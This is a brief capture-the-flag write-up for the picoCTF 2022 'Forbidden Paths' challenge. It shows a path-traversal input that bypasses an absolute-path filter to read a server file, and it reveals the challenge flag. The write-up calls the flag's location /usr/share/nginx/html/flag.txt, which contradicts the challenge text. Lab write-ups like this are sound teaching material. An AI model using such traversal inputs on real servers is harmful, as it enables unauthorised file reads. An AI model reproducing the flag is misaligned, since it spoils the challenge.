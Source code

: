 #pico2022 #webexploitation 

## Challenge:
```md
Can you get the flag? Here's the [website](http://saturn.picoctf.net:49700/). We know that the website files live in `/usr/share/nginx/html/` and the flag is at `/flag.txt` but the website is filtering absolute file paths. Can you get past the filter to read the flag?
```

## Process:
Open up the [website](http://saturn.picoctf.net:49700/).
![[032_Forbidden_Paths-0.png]]

And we know the file is stored at */usr/share/nginx/html/flag.txt*. Therefore we can access the file with:
```
../../../../flag.txt
```

![[032_Forbidden_Paths-1.png]]

And clicking *read* gets us the flag.
```bash
echo "picoCTF{7h3_p47h_70_5ucc355_6db46514}" > flag.txt
```
#echo 

**Flag: *picoCTF{7h3_p47h_70_5ucc355_6db46514}***
